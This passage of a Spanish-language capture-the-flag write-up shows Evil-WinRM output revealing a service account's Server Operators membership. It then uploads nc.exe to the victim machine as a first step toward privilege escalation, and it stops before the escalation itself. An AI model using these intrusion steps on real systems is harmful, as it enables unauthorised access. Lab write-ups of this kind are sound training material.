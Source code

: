 Si observamos los grupos del usuario tenemos:
```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/8/2023 8:52:40 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

Observamos que pertenecemos al grupo **Server Operators**, si buscamos por google si existen maneras de escalar privilegios con este grupo encontramos la siguiente [web](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/), el primer paso consiste en subir a la máquina víctima el `netcat.exe`, en este caso este ejecutable en encuentra en:

```
locate nc.exe

/home/kali/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

Prodecemos a subirlo a máquina víctima:

```
C:\Users\svc-printer> upload /usr/share/windows-resources/binaries/nc.exe
Info: Uploading /usr/share/windows-resources/binaries/nc.exe to C:\Users\svc-printer\nc.exe

                                                             
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!
```
